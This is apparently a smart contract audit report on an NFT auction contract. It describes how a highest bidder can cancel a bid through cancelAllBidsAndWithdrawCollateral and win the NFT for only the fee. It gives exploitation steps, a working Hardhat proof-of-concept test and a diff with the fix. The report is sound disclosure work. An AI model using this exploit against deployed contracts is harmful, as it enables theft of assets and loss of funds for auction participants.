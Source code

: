 Bouncy Burlap Raccoon

high

# User can cancel his bid and buy NFT only for feeAmount

## Summary

User is able to cancel his highest bid. He can get NFT for much lower price.

## Vulnerability Detail

After placing a bid user becomes the highest bidder in auction. He cannot cancel a bid using `cancelBid` function. However it is possible by calling `cancelAllBidsAndWithdrawCollateral`.

`cancelAllBidsAndWithdrawCollateral` is missing a check that would restrict user from canceling highest bid in an auction.

```javascript
require(
    bidder != l.highestBids[tokenId][round].bidder,
    'EnglishPeriodicAuction: Cannot cancel bid if highest bidder'
);
```

Exploitation Steps:
1. Attacker places bid calling `placeBid` (highest bidder)
2. Next he calls `cancelAllBidsAndWithdrawCollateral` to cancel his bid
3. Now he has to trasnfer FeeAmount so that this check (in `_closeAuction`) can be satisfied

```javascript
    // Distribute fee to beneficiary
    if (l.highestBids[tokenId][currentAuctionRound].feeAmount > 0) {
        IBeneficiary(address(this)).distribute{
            value: l.highestBids[tokenId][currentAuctionRound].feeAmount
        }();
    }
```
4. Attacker has to call `closeAuction`. If noone else bidded in meantime, he will receive NFT paying only `feeAmount`

Proof of Concept:

```typescript
describe("Test1", () => {
    it("User can cancel highest bid and buy NFT for feeAmount", async () => {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });
      const licenseMock = await ethers.getContractAt(
        'NativeStewardLicenseMock',
        instance.address,
      );

      const bidAmount1 = ethers.utils.parseEther('1.1');
      const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
      const collateralAmount1 = feeAmount1.add(bidAmount1);

      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount1, { value: collateralAmount1 });

      let bid = await instance['bidOf(uint256,address)'](0, bidder1.address);

      expect(bid.bidder).to.be.equal(bidder1.address);
      expect(bid.bidAmount).to.be.equal(bidAmount1);
      expect(bid.feeAmount).to.be.equal(feeAmount1);
      expect(bid.collateralAmount).to.be.equal(collateralAmount1);

      
      await instance
      .connect(bidder1)
      .cancelAllBidsAndWithdrawCollateral(0);

      bid = await instance['bidOf(uint256,address)'](0, bidder1.address);

      expect(bid.bidder).to.be.equal(bidder1.address);
      expect(bid.bidAmount).to.be.equal(0);
      expect(bid.feeAmount).to.be.equal(feeAmount1);
      expect(bid.collateralAmount).to.be.equal(0);

      await owner.sendTransaction({
        to: instance.address,
        value: feeAmount1,
      });

      await time.increase(1000);

      await instance.connect(bidder1).closeAuction(0);

      expect(await licenseMock.ownerOf(0)).to.be.equal(bidder1.address);
    })
  })
```

## Impact

User will buy NFT at much lower price causing loss of funds.

## Code Snippet

https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434

```javascript
    function _cancelAllBids(uint256 tokenId, address bidder) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

        for (uint256 i = 0; i <= currentAuctionRound; i++) {
            Bid storage bid = l.bids[tokenId][i][bidder];

            if (bid.collateralAmount > 0) {
                // Make collateral available to withdraw
                l.availableCollateral[bidder] += bid.collateralAmount;

                // Reset collateral and bid
                bid.collateralAmount = 0;
                bid.bidAmount = 0;
            }
        }
    }
```

## Tool used

Manual Review

## Recommendation

Add require statement from `cancelBid` function to `cancelAllBidsAndWithdrawCollateral`. User will not be able to cancel his bid when he is the highest bidder.

```diff
    function _cancelAllBids(uint256 tokenId, address bidder) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

        for (uint256 i = 0; i <= currentAuctionRound; i++) {
            Bid storage bid = l.bids[tokenId][i][bidder];

+           require(
+               bidder != l.highestBids[tokenId][i].bidder,
+               'EnglishPeriodicAuction: Cannot cancel bid if highest bidder'
+           );

            if (bid.collateralAmount > 0) {
                // Make collateral available to withdraw
                l.availableCollateral[bidder] += bid.collateralAmount;

                // Reset collateral and bid
                bid.collateralAmount = 0;
                bid.bidAmount = 0;
            }
        }
    }
```